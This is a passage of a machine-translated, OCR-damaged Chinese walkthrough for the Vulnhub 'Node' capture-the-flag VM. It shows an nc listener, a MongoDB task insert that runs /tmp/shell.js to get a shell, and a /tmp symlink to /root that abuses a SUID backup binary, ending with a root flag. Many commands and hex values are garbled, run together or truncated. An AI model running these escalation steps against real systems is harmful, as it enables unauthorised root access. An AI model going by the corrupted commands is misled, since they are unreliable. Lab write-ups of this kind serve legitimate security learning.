 ***nc 在新端子-lnvp 2007***

切换回我们的另一个运行 mongo 的终端窗口，我们可以发出以下 cmd:

***db . tasks . insertone({ cmd:"/usr/bin/nodejs/tmp/shell . js " })；***

这将使你进入 **Tom** *(第一步 priv esc 完成)*我们可以转到 **/home/tom** dir 并捕获 user.txt 标志。

我们现在应该使用 Toms 用户权限重新开始枚举。

启动我们可靠的老 **LinEnum.sh** 并查看输出，我们可以看到:

***-rwsr-xr—1 root admin 16484 Sep 3 11:30/usr/local/bin/backup***

导航到这个文件，在谷歌搜索了一下后，我发现它是 backup/dirs，但我不能使用它或调用 root 或其他功能，否则它会反复骚扰我。

在进行了大量的枚举和谷歌搜索之后，我找到了一篇文章，建议从一个我们有写权限的目录( **/tmp** )创建一个符号链接，我们也许可以绕过这个限制。

所以我在 tmp 文件夹中创建了一个指向/root 的符号链接

**mkdir -p /tmp/hack**

**Tom @ node:/tmp $ ln-s/root/tmp/hack/hack**

***Tom @ node:/tmp $ file/tmp/hack/hack
/tmp/hack/hack:到/root* 的符号链接**

我们必须再次访问网页并下载新修改的备份文件。一旦我们有了它，我们就可以像以前一样使用密码 **magicword** 进行解码

***tom@node:/tmp$。/backup-q 45 fac 180 e 9 eee 72 f 4 FD 2d 9386 ea 7033 e 52 b 7 c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack***

***<45 fac 180 e 9 eee 72 f 4 FD 2d 9386 ea 7033 e 52 b 7 c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack
bash:。/backup:没有这样的文件或目录
Tom @ node:/tmp $/usr/local/bin/backup-q 45 fac 180 e 9 eee 72 f 4d 9386 ea 7033 e 52 b 7c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack
<72 f 4d 9386 ea 7033 e 52 b 7c 740 AFC 3d 98 a8d 0230160***

在 base 64 解码之后，我们得到了一个 root /dir 的副本，其中包含了根标志，我们可以处理最后一个标志。

**1722 e 99 ca 5f 464 b 362556 a 62 BD 5e 6 be 0**

游戏结束了。哇，那真的很难，像往常一样，最近我从这台虚拟机中学到了很多。

非常感谢[@ iam rasting](https://twitter.com/@iamrastating)创建了这么棒的虚拟机，也感谢 Vulnhub.com 托管了这么多优秀的虚拟机。